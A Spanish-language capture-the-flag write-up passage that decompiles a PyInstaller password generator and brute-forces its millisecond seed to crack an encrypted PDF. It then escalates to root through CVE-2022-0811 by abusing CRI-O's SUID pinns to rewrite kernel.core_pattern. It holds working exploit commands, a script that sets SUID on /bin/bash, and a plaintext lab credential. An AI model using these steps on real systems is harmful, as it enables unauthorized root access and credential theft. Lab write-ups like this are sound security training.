

Y la imagen nos muestra la interfaz gráfica del ejecutable encontrado.


De esta imagen podemos suponer que la contraseña del PDF tiene varios caracteres y 32 de longitud.

## Reversing `passwordGenerator`
Vamos a descargar el ejecutable para analizarlo.
```console
local) pwncat$ download passwordGenerator
passwordGenerator ━━━╺━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 6.0% • 2.1/34.6 MB • 3.0 MB/s • 0:00:11
[00:38:08] downloaded 34.58MiB in 1.17 seconds 
```


Como no se está utilizando .NET, primero me interesa saber como está hecho este binario para poder analizarlo.

```console
strings passwordGenerator
.....
bQt5Svg.dll
bQt5VirtualKeyboard.dll
bQt5WebSockets.dll
bQt5Widgets.dll
bVCRUNTIME140.dll
b_bz2.pyd
b_ctypes.pyd
b_hashlib.pyd
b_lzma.pyd
b_socket.pyd
b_ssl.pyd
bd3dcompiler_47.dll
blibEGL.dll
blibGLESv2.dll
blibcrypto-1_1.dll
blibssl-1_1.dll
bopengl32sw.dll
bpyexpat.pyd
bpyside2.abi3.dll
bpython3.dll
bpython37.dll
bselect.pyd
bshiboken2.abi3.dll
bshiboken2\shiboken2.pyd
bunicodedata.pyd
xPySide2\translations\qtbase_ar.qm
xPySide2\translations\qtbase_bg.qm
xPySide2\translations\qtbase_ca.qm
xPySide2\translations\qtbase_cs.qm
xPySide2\translations\qtbase_da.qm
xPySide2\translations\qtbase_de.qm
xPySide2\translations\qtbase_en.qm
xPySide2\translations\qtbase_es.qm
xPySide2\translations\qtbase_fi.qm
xPySide2\translations\qtbase_fr.qm
xPySide2\translations\qtbase_gd.qm
xPySide2\translations\qtbase_he.qm
xPySide2\translations\qtbase_hu.qm
xPySide2\translations\qtbase_it.qm
xPySide2\translations\qtbase_ja.qm
xPySide2\translations\qtbase_ko.qm
xPySide2\translations\qtbase_lv.qm
xPySide2\translations\qtbase_pl.qm
xPySide2\translations\qtbase_ru.qm
xPySide2\translations\qtbase_sk.qm
xPySide2\translations\qtbase_tr.qm
xPySide2\translations\qtbase_uk.qm
xPySide2\translations\qtbase_zh_TW.qm
xbase_library.zip
zPYZ-00.pyz
3python37.dll
```

Podemos suponer que se está utilizando `python3.7` y para la interfaz gráfica la librería `Qt5`, entonces probablemente se esté utilizando `PyInstaller` o `py2exe` para crear el ejecutable para Windows.

Podemos buscar como podemos descompilar este ejecutable, y encontramos un proyecto interesante llamado [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor)


Vamos a clonar este repositorio.
```console
git clone https://github.com/extremecoders-re/pyinstxtractor
Cloning into 'pyinstxtractor'...
remote: Enumerating objects: 205, done.
remote: Counting objects: 100% (130/130), done.
remote: Compressing objects: 100% (61/61), done.
remote: Total 205 (delta 82), reused 90 (delta 69), pack-reused 75 (from 1)
Receiving objects: 100% (205/205), 66.87 KiB | 1.52 MiB/s, done.
Resolving deltas: 100% (100/100), done.
```

Ahora podemos extraer todo el bytecode de python del ejecutable.
```console
python2.7 pyinstxtractor.py passwordGenerator
[+] Processing passwordGenerator
[+] Pyinstaller version: 2.1+
[+] Python version: 3.7
[+] Length of package: 34300131 bytes
[+] Found 95 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_subprocess.pyc
[+] Possible entry point: pyi_rth_pkgutil.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: pyi_rth_pyside2.pyc
[+] Possible entry point: passwordGenerator.pyc
[!] Warning: This script is running in a different Python version than the one used to build the executable.
[!] Please run this script in Python 3.7 to prevent extraction errors during unmarshalling
[!] Skipping pyz extraction
[+] Successfully extracted pyinstaller archive: passwordGenerator

You can now use a python decompiler on the pyc files within the extracted directory
```

Vemos todos los archivos en el directorio `passwordGenerator_extracted`
```console
ls
base_library.zip    libcrypto-1_1.dll  MSVCP140_1.dll         pyiboot01_bootstrap.pyc  pyi_rth_inspect.pyc     pyside2.abi3.dll      Qt5Core.dll     Qt5Qml.dll              Qt5WebSockets.dll   _socket.pyd
_bz2.pyd            libEGL.dll         MSVCP140.dll           pyimod01_os_path.pyc     pyi_rth_pkgutil.pyc     python37.dll          Qt5DBus.dll     Qt5QmlModels.dll        Qt5Widgets.dll      _ssl.pyd
_ctypes.pyd         libGLESv2.dll      opengl32sw.dll         pyimod02_archive.pyc     pyi_rth_pyside2.pyc     python3.dll           Qt5Gui.dll      Qt5Quick.dll            select.pyd          struct.pyc
d3dcompiler_47.dll  libssl-1_1.dll     passwordGenerator.pyc  pyimod03_importers.pyc   pyi_rth_subprocess.pyc  PYZ-00.pyz            Qt5Network.dll  Qt5Svg.dll              shiboken2           unicodedata.pyd
_hashlib.pyd        _lzma.pyd          pyexpat.pyd            pyimod04_ctypes.pyc      PySide2                 PYZ-00.pyz_extracted  Qt5Pdf.dll      Qt5VirtualKeyboard.dll  shiboken2.abi3.dll  VCRUNTIME140.dll
```

Podemos utilizar `decompyle3` para descompilar el bytecode y ver el código python de la aplicación.
```console
pip3 install decompyle3
```

```console
decompyle3 passwordGenerator.pyc > main.py
```

Ahora podemos analizar el código de `main.py` que es el ejecutable de Windows.

Lo que nos interesa es la función `genPassword()`
```console
def genPassword(self):
        length = value
        char = index
        if char == 0:
            charset = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890~!@#$%^&*()_-+={}[]|:;<>,.?"
        elif char == 1:
            charset = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz"
        elif char == 2:
            charset = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890"
        try:
            qsrand(QTime.currentTime().msec())
            password = ""
            for i in range(length):
                idx = qrand() % len(charset)
                nchar = charset[idx]
                password += str(nchar)

        except:
            msg = QMessageBox()
            msg.setWindowTitle("Error")
            msg.setText("Error while generating password!, Send a message to the Author!")
            x = msg.exec_()

        return password
```

## Creating Bruteforce Script
Suponiendo que se está utilizando todos los caracteres como se ve en la imagen, podemos suponer que se está utilizando el primer `charset`

Después: 
- Se inicializa la semilla del generador de números aleatorios (`qsrand`) basada en los milisegundos actuales (`QTime.currentTime().msec()`).
- Se construye la contraseña de forma iterativa. Para cada carácter:
    - Se genera un índice aleatorio (`idx`) dentro del rango del tamaño del conjunto de caracteres seleccionado.
    - Se toma el carácter correspondiente y se añade a la contraseña.

Entonces, necesitamos saber en que milisegundo exacto y como funciona la función `msec()`


En este caso se retorna el milisegundo en el que se creó la contraseña, desde el 0 hasta el 999. Esto significa que solo existen 1000 combinaciones para la seed, por ende, solo existen 1000 contraseñas posibles para el PDF.

Vamos a instalar la librería `PySide2` que es la que contiene las funciones `qsrand` y `qrand` para crear todas las posibles combinaciones.
```console
pip3 install pyside2
```

Este es el script que va a generar las 1000 posibles contraseñas.
```python
#!/usr/bin/python3
from PySide2.QtCore import qsrand, qrand

MAX_SEED_VALUE = 1000
PASSWORD_LENGTH = 32

def generate_password(seed):
    charset = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890~!@#$%^&*()_-+={}[]|:;<>,.?"
    qsrand(seed)
    password = ""
    for i in range(PASSWORD_LENGTH):
        idx = qrand() % len(charset)
        nchar = charset[idx]
        password += str(nchar)
    return password

def main():
    for i in range(MAX_SEED_VALUE):
        password = generate_password(i)
        print(password)

if __name__ == "__main__":
    main()
```

Podemos generar las contraseñas y guardarlas en un fichero `passwords.txt`
```console
python3 brute.py > passwords.txt
```

Ahora podemos exportar el hash con `pdf2john` a un fichero `hash`
```console
pdf2john notes.pdf > hash
```

Y al intentar crackear este hash con `john` y las contraseñas generadas vemos que no encuentra resultado.
```console
john -w=passwords.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PDF [MD5 SHA2 RC4/AES 32/64])
Cost 1 (revision) is 3 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2024-12-04 01:23) 0g/s 24975p/s 24975c/s 24975C/s 2J16^>.|vtXpN2[o1H;e4f|FF0([y+|q..l2DoG^icl}>kZ[tNB|:]m5km@{x:^7ck
Session completed.
```

## Why it doesn't work in Linux?
Entonces, leyendo [la documentación de qrand()](https://doc.qt.io/qt-5/qtglobal-obsolete.html) podemos leer el siguiente texto.

> Thread-safe version of the standard C++ `rand()` function.
> 
> Returns a value between 0 and `RAND_MAX` (defined in `<cstdlib>` and `<stdlib.h>`), the next number in the current sequence of pseudo-random integers.

Esto significa que no se generaría los mismos números ya que la función `qrand()` utiliza la implementación estándar de `rand()` de C++ la cual varía entre plataformas, Microsoft y GNU tiene diferentes algoritmos para `rand()` por lo cual da lugar a secuencias distintas incluso con la misma semilla. Factores como diferencias en el algoritmo, el valor de `RAND_MAX` y el manejo interno de números afectan los resultados por lo cual, vamos a probar a generar las 1000 posibles credenciales en Windows y probar a crackear el hash.

## Cracking PDF hash
Para ello, en una máquina Windows, podemos descargar `PySide2` igual que en linux (debemos tener una versión de Python inferior a la `3.10`, en mi caso, he utilizado la `3.7`)
```console
pip3 install pyside2
```

Ejecutamos el script y vemos que efectivamente, son contraseñas distintas.


Copiamos estas contraseñas a nuestra máquina linux y ahora con `john` podemos crackear el hash que anteriormente he extraido.
```console
john -w=passwords_win.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PDF [MD5 SHA2 RC4/AES 32/64])
Cost 1 (revision) is 3 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
YG7Q7RDzA+q&ke~MJ8!yRzoI^VQxSqSS (notes.pdf)
1g 0:00:00:00 DONE (2024-12-04 01:56) 100.0g/s 38400p/s 38400c/s 38400C/s _jEkA+f0VXtWZ[K.d+EdaBAB>;r]E3Z*..r6TUgox@Tb5JWnK5AHO}$AE%8!d58Shq
Use the "--show --format=PDF" options to display all of the cracked passwords reliably
Session completed.
```

Ahora podemos leer el PDF y vemos una credencial que supuestamente es de `ethan`


Por lo cual tenemos un combo, `ethan: b@mPRNSVTjjLKId1T` que es válido en la máquina víctima y podemos migrar de usuario.
```console
(remote) www-data@vessel:/home/steven/.notes$ su ethan
Password:
ethan@vessel:/home/steven/.notes$ id
uid=1000(ethan) gid=1000(ethan) groups=1000(ethan)
```

Podemos ver la flag de usuario.
```console
ethan@vessel:~$ cat user.txt
8458e60618f88d...
```

# Privilege Escalation
Tras enumerar la máquina victima encontramos un binario con permiso de SUID un tanto extraño. Este es el binario `pinns`
```console
ethan@vessel:~$ find / \-perm \-4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/at
/usr/bin/chsh
/usr/bin/mount
/usr/bin/su
/usr/bin/pinns
```

Aparentemente este binario no tiene panel de ayuda ni entrada en `man`
```console
ethan@vessel:~$ /usr/bin/pinns
[pinns:e]: Path for pinning namespaces not specified: Invalid argument
ethan@vessel:~$ /usr/bin/pinns --help
ethan@vessel:~$ man pinns
No manual entry for pinns
```

Buscando en Google encontré un par de artículos interesantes. El que mas me interesa es [este escrito por CrowdStrike](https://www.crowdstrike.com/en-us/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/)

## Abusing CVE-2022-0811
Se relata como existe una vulnerabilidad para escapar de un contenedor Kubernetes y ganar acceso como `root` en la máquina anfitriona, igualmente no se necesita Kubernetes para poder explotar esto, ya que cualquier máquina que tenga instalado `CRI-O` puede usarse para establecer parámetros en el kernel.

> Kubernetes is not necessary to invoke CVE-2022-8011. An attacker on a machine with CRI-O installed can use it to set kernel parameters all by itself.

La versión vulnerable de `CRI-O` es la `1.19+` y podemos consultar que la máquina víctima contiene este binario y pertenece a una versión vulnerable.
```console
ethan@vessel:~$ crio -v
crio version 1.19.6
Version:       1.19.6
GitCommit:     c12bb210e9888cf6160134c7e636ee952c45c05a
GitTreeState:  clean
BuildDate:     2022-03-15T18:18:24Z
GoVersion:     go1.15.2
Compiler:      gc
Platform:      linux/amd64
Linkmode:      dynamic
```

Según el artículo, nuestra meta es poder abusar del parámetro `kernel.core_pattern` para poder ejecutar comandos como `root`.

Podemos leer el [manual de core](https://man7.org/linux/man-pages/man5/core.5.html) para consultar donde podemos ver la información del valor de `kernel.core_pattern` y vemos que en la máquina víctima tiene un valor normal.
```console
https://man7.org/linux/man-pages/man5/core.5.html
```

Podemos leer [este commit](https://github.com/cri-o/cri-o/commit/26de5b665937608100817bc3b21f3eca41014dd2) y nos damos cuenta de que `CRI-O` utiliza la utilidad `pinns` (la que tenemos el permiso de SUID) para establecer opciones del kernel, pero en la versión 1.19 `pinns` ahora establecerá los parámetros que queramos sin validarlos, por lo cual podemos establecer un valor malicioso que cuando ocurra un `core dumped` ejecute el script que nosotros queramos como `root`

Como no sabemos que parámetros podemos utilizar con `pinns` ya que por alguna razón no tiene menú de ayuda, podemos revisar [el código fuente](https://github.com/cri-o/cri-o/tree/main/pinns) para poder leer los parámetros que acepta.

```c
static const struct option long_options[] = {
      {"help", no_argument, NULL, 'h'},
      {"uts", optional_argument, NULL, 'u'},
      {"ipc", optional_argument, NULL, 'i'},
      {"net", optional_argument, NULL, 'n'},
      {"user", optional_argument, NULL, 'U'},
      {"cgroup", optional_argument, NULL, 'c'},
      {"mnt", optional_argument, NULL, 'm'},
      {"dir", required_argument, NULL, 'd'},
      {"filename", required_argument, NULL, 'f'},
      {"uid-mapping", optional_argument, NULL, UID_MAPPING},
      {"gid-mapping", optional_argument, NULL, GID_MAPPING},
      {"sysctl", optional_argument, NULL, 's'},
  };
```

## Modifying Core Pattern to Malicious Script
Nos interesa el parámetro `sysctl` que es el que podemos abusar para cambiar el valor de `kernel.core_pattern`


Vemos que tenemos un error.
```console
ethan@vessel:~$ /usr/bin/pinns --sysctl 'kernel.shm_rmid_forced=1+kernel.core_pattern=|/tmp/pwned.sh'
[pinns:e]: Path for pinning namespaces not specified: Invalid argument
```

Este error proviene de la línea 141, se requiere que `pin_path` tenga un valor que sería una ruta del sistema, este valor proviene del parámetro `-d`
```c
if (!pin_path) {
    nexit("Path for pinning namespaces not specified");
  }
```

Valor del parámetro
```c
case 'd':
      pin_path = optarg;
      break;
```

Y ahora tenemos un nuevo error.
```console
ethan@vessel:~$ /usr/bin/pinns --sysctl 'kernel.shm_rmid_forced=1+kernel.core_pattern=|/tmp/pwned.sh' -d /dev/null
[pinns:e]: Filename for pinning namespaces not specified: Invalid argument
```

Buscando el error, tenemos que establecer el parámetro `-f`
```console
/usr/bin/pinns --sysctl 'kernel.shm_rmid_forced=1+kernel.core_pattern=|/tmp/pwned.sh' -d /dev/null -f test
[pinns:e] No namespace specified for pinning
```

Y para terminar esto ocurre ya que el valor de `num_unshares` es 0
```c
 if (num_unshares == 0) {
    nexit("No namespace specified for pinning");
  }
```

Mediante el parámetro `-U` podemos hacer que aumente este valor.
```console
case 'U':
      if (!is_host_ns (optarg))
        unshare_flags |= CLONE_NEWUSER;
      bind_user = true;
      num_unshares++;
      break;
```

Ahora vemos que se nos reporta un error donde dice que la operación no ha sido permitida, pero esto es buena señal ya que en principio debería de hacer cambiado el valor del fichero `/proc/sys/kernel/core_pattern`
```console
ethan@vessel:~$ /usr/bin/pinns --sysctl 'kernel.shm_rmid_forced=1+kernel.core_pattern=|/tmp/pwned.sh' -d /dev/shm -f test -U BLABLA
[pinns:e]: Failed to bind mount ns: /proc/self/ns/user: Operation not permitted
```

Al comprobarlo nos damos cuenta de que no ha cambiado, esto es porque me he equivocado y el parámetro para `sysctl` es `-s` y no `--sysctl`
```console
ethan@vessel:~$ cat /proc/sys/kernel/core_pattern
|/usr/share/apport/apport %p %s %c %d %P %E
```


Después de unos intentos mas conseguimos cambiar el valor.
```console
ethan@vessel:~$ /usr/bin/pinns -s 'kernel.shm_rmid_forced=1+kernel.core_pattern=|/tmp/pwned.sh' -d /dev/shm -f test -U
[pinns:w]: Failed to create ns file: File exists
ethan@vessel:~$ cat /proc/sys/kernel/core_pattern
|/tmp/pwned.sh
```

## Triggering Core Dump
Ahora, como dicta el artículo tenemos que causar un `core dump` para que el kernel ejecute nuestro script malicioso.

> We need to trigger a core dump to cause the kernel to execute our malicious core dump handler

Pero antes, vamos a crear nuestro script malicioso, en `/tmp/pwned.sh` creamos el siguiente script.
```bash
#!/bin/bash

chmod u+s /bin/bash
```

Le damos permiso de ejecución.
```console
ethan@vessel:~$ chmod +x /tmp/pwned.sh
```

Ahora simplemente causamos el `core dump` (comprobar antes el valor de `/proc/sys/kernel/core_pattern` ya que la máquina tiene un script que va cambiando el valor al que tenía antes)
```console
ethan@vessel:~$ tail -f /dev/null &
[1] 18777
ethan@vessel:~$ ps
    PID TTY          TIME CMD
  18154 pts/1    00:00:00 bash
  18777 pts/1    00:00:00 tail
  18778 pts/1    00:00:00 ps
ethan@vessel:~$ kill -SIGSEGV 18777
ethan@vessel:~$ ps
    PID TTY          TIME CMD
  18154 pts/1    00:00:00 bash
  18781 pts/1    00:00:00 ps
[1]+  Segmentation fault      (core dumped) tail -f /dev/null
```

Y podemos comprobar que todo ha salido bien y tenemos permiso de SUID en la `/bin/bash`
```console
ethan@vessel:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Ahora podemos lanzarnos una `bash` con el parámetro `-p` para lanzarla como el propietario del binario que es `root` y ya hemos escalado privilegios.
```console
ethan@vessel:~$ bash -p
bash-5.0# id
uid=1000(ethan) gid=1000(ethan) euid=0(root) groups=1000(ethan)
```

Podemos leer la flag de `root`
```console
bash-5.0# cat root.txt
9f9cc5f5dd5d00...
```

¡Y ya estaría!

Happy Hacking! 🚀